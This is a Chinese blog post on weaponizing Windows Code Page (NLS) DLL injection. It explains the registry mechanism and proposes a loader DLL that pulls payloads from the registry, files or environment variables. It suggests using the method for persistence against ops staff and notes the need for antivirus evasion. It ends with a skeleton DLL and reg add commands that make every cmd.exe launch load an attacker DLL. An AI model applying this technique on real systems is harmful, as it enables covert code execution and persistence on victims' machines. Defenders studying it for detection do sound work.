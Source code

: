 ```yaml
---
title: Code Page注入方法的武器化
date: 2022-11-25 21:03:31
categories: 
- 注入
tags:
- 注入
- CodePage
- NLS
- 武器化
---
```

# 起源

一年多以前，[Jonas L](https://twitter.com/jonasLyk)在[推特](https://twitter.com/jonasLyk/status/1352729173631135751)首次提出了这个注入方法，并在评论区提出了一些可能的利用方法。半年前，有人在GitHub发布了一份[Poc](https://github.com/NtQuerySystemInformation/NlsCodeInjectionThroughRegistry)，某种程度上进行了对注入方案的验证。

# 原理

控制台程序，会有一个对应的Code Page，也就是代码页，这个东西是字符代码的一个映射，每个控制台对应两个代码页，一个输入一个输出。

大部分Code Page都是nls文件，但是看到有一部分是dll文件，确切地说是5开头的五位数对应的部分（此处未经逆向，仅通过测试进行判断，如有错误，还请见谅）。通过修改或添加一个符合条件的代码页，就可以让使用这个代码页的进程加载这个dll。

根据文档，这个dll需要有一个名称为NlsDllCodePageTranslation的导出函数，来保证其正常加载。

在Jonas L的推特帖子中，使用控制台作为示例，直接通过chcp命令进行了演示，这也是最简单的一个实现方法。而后在评论区提到了SetThreadLocale、WM_INPUTLANGCHANGE等方法。后面出现的poc使用了SetThreadLocale的思路，但是由于api的限制，这个poc还使用了远程线程注入，所以只适合作为一个演示使用，并不适合在实战环境利用。

# 武器化思路

SetThreadLocale仅支持对当前线程进行修改，而WM_INPUTLANGCHANGE需求也较为苛刻。

所以，针对已有进程进行注入并不现实，剩下就是对新进程的注入，也就是通常说的spawn。

先考虑dll的问题，每次单独生成dll是不现实的，未经测试的陌生文件直接落地太不尊重目标机器的防护软件了。所以要考虑的就是使用一个通用的dll去加载指定位置的模块（dll或shellcode），所以可以制作一个从注册表、文件、环境变量等地方读取payload再加载的dll作为落地的文件。需要导出的NlsDllCodePageTranslation函数可以直接转发。

确定了文件的方案之后，就是修改代码页的问题。首先是添加带有自己dll的代码页，经过查询[文档](https://learn.microsoft.com/en-us/windows/console/console-code-pages)可以得知，修改 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Nls\CodePage`即可。（这里的注册表键值默认路径是在对应的system32或者syswow64路径，可以通过..\回到上级目录，这里我选择的上级的Temp目录放置文件）

而后考虑修改程序对应的代码页，这里有两种方法：

* 如果直接选用cmd、powershell或类似的控制台程序作为spawn对象，可以在创建进程时指定将输入输出重定向（就是大部分远控或c2的远程shell实现原理），并输入chcp指令触发加载。
* 更通用的[方案](https://devblogs.microsoft.com/commandline/understanding-windows-console-host-settings/)是修改HKEY_CURRENT_USER\Console里的注册表项，添加控制台程序路径，并指定其使用的Code Page。

如果为了临时使用，可以使用第一种，如果想集成进现有框架，可以考虑第二个。第二个方案也可以作为一种被动触发的权限维持方案使用，适合针对运维人员。

至此，整套方案就已经可以投入使用了，但是存在一些缺点，使用时要注意

1. 目标进程必须是控制台进程
2. 添加代码页需要管理员权限（添加一次即可，后续不再需要管理员权限）
3. dll会落地，要考虑免杀
4. 不能用作inject，只能用于spawn

# 总结（演示）

首先制作一个dll文件（注意位数），示例代码：

```cpp
#include <windows.h>
#pragma comment(linker, "/export:NlsDllCodePageTranslation=\"C:\\Windows\\System32\\C_gsm7.NlsDllCodePageTranslation\"")
//#pragma comment(linker, "/export:NlsDllCodePageTranslation=\"C:\\Windows\\Syswow64\\C_gsm7.NlsDllCodePageTranslation\"")

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        //Do Something You Want
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

将文件放置在C:\Windows\Temp中，并打开cmd输入如下命令行(记得修改第一行最后的文件名)：

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Nls\CodePage" /v 55555 /d "..\Temp\qwqdanchun.dll" /f

reg add "HKEY_CURRENT_USER\Console\%SystemRoot%_system32_cmd.exe" /f

reg add "HKEY_CURRENT_USER\Console\%SystemRoot%_system32_cmd.exe"  /v CodePage /t REG_DWORD /d 55555 /f
```

之后每次启动cmd都会加载这个dll。如果使用其他控制台程序，修改后两行的注册表项的名称即可。
